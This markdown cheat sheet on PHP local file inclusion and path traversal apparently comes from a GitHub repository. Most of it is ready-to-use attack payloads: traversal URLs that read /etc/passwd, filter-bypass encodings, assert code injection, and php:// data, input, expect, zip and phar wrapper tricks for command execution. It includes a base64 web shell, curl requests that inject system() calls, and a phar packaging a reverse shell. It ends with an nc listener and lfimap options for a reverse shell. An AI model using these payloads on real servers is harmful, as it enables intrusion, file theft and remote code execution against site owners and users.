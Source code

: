 # Local File Inclusion and Path Traversal  

LFI - Executing local server files with PHP 'include', 'include_once', 'require' or 'require_once' functions.  

### Path traversal  
Path traversal means traversing the file structure with '../' or '..\\' sequences in order to read files 'below' the web server file path. Path traversals can be only used to read files on a web server, without execution.

```php
<?php include($_GET['file']); ?>
```

`http://linux_server/site.php?file=/../../../../../../../../../etc/passwd`  
`http://windows_server/site.php?file=\..\..\..\..\..\..\..\..\..\Windows\System32\drivers\etc\hosts`  

### Path normalization
Path normalization is done implicitly within PHP. Multiple subsequent slashes, as well as './' and '/.' are automatically stripped. This can be used to bypass bad sanitization.    
```php
<?php
# Disable inclusion of files ending with 'passwd'
if(substr($_GET['file'], -6, 6) != "passwd"){
   include($_GET['file']);
}
?>
```
`http://server/site.php?file=badfolder../../../../../../../../../../../etc/passwd/.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../././././etc/././passwd/./.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../../..////etc/////passwd/.`  

### Sanitization bypass
`?file=existingfolder/../../../../../../../../etc/passwd`  
`?file=doesnotexist../../../../../../../../../../.././etc/.//.//passwd//.`  
`?file=.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`  
`?file=....//....//....//....//etc/passwd`   
`?file=..///////..////..//////etc/passwd`  
`?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd`  
`?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`  
`?file=%252e/%252e/%252e/%252e/%252e/etc/passwd`  

### Extension blacklist bypass
Extension blacklisting can be bypassed with path normalization technique. By adding nonexisting directory as an argument prefix and normalization string in the end of parameter. Normalization string for linux is '/.' and './' on windows servers.  

```php
<?php
# PHP files are not allowed
if (substr($_GET['file'], -4, 4) != '.php')
   echo file_get_contents($_GET['file']);
else
   echo 'You are not allowed to see php source files!'."\n";
?>
```

`http://linux_server/site.php?file=nonexisting../../../../../../../../var/www/html/test.php/.`  
`http://windows_server/site.php?file=nonexisting..\..\..\..\..\..\..\..\wamp\web\test.php./`

### Assert code injection
If sanitization is done using assert function, injection arbitrary code could be possible.    
```php
<?php
    $file = $_GET['file'];
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
?>
```
`http://server/site.php?file=%27.system(%22ls%22).%27`  
`http://server/site.php?file=%27.passthru%28%22ls%22%29.%27`

### Nullbyte injection 
When '.php' is appended, it can be bypassed with nullbyte in php versions before 5.3.4, or if 'magic_quotes_gpc' is set to Off.  
 
```php
<?php include($_GET['file'] . ".php"); ?>
```
`http://server/site.php?file=../../../../../../../../etc/passwd%00`  
`http://server/site.php?file=../../../../../../../../etc/passwd%2500`  
`http://server/site.php?file=../../../../../../../../etc/passwd\0`   


### File wrapper
`http://server/site.php?parameter=file:///etc/passwd`  

### Filter wrapper
Filter wrapper can be used as a bypass method. Loading/Including php file will execute it, therefore source code won't be shown. With filter wrapper source code can be disclosed in a form of encoded string, which will need to be decoded.  
`http://server/site.php?file=php://filter/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/read=string.rot13/resource=/etc/passwd` 

### Data wrapper command execution
`http://server/site.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4K&c=cat%20/etc/passwd`  

### Input wrapper command execution
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php shell_exec($_GET['cmd']); ?>"`    
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php passthru($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php echo system($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input" -d "<?php echo system('whoami'); ?>"`  

### Expect wrapper command execution
Very rare and by default not enabled.  
`http://server/site.php?file=expect://cat%20/etc/passwd`  

### Zip wrapper code execution
Zip wrapper can be used in order to gain code execution, with uploaded archive that has zipped malicious .php file inside it.    
`http://server/site.php?file=zip://uploads/shell.zip%23shell.php`      

### Phar wrapper code execution
Create malicious phar file with reverse shell or custom malicious code inside it - represented as 'mal.jpg'.  
```php
 <?php
    $p = new PharData(dirname(__FILE__).'/pharfile.zip',0,'pharfile2',Phar::ZIP);
    $x = file_get_contents('./reverse_shell.php');
    $p->addFromString('mal.jpg', $x);
  ?>
```
Compile phar with `php --define phar.readonly=0 create_path.php`  
`http://server/site.php?file=phar://pharfile.zip/mal.jpg`  

### /proc/self/environ code execution
If environ file can be included User-Agent string can be used in order to achieve rce. Make sure User-Agent is inside /proc/self/environ for this to work.       

`curl http://server/index.php?file=/proc/self/environ&cmd=id -H "User-Agent: <?php echo system($_GET['cmd']);?>"`


### Lfimap

[Lfimap](https://github.com/hansmach1ne/lfimap), local file inclusion discovery and exploitation tool.  
Automatically tests filter, data, input, expect and file wrappers, path truncation, remote file inclusion, xss and command injection.

Test GET parameters  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -a`  

Test POST parameters   
`sudo python3 lfimap.py "http://server/index.php" -D "page=PWN" -a`  


Exploit vulnerable target automatically    
`sudo rlwrap nc -nvlp 99`  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -a -x --lhost <ip> --lport 99`
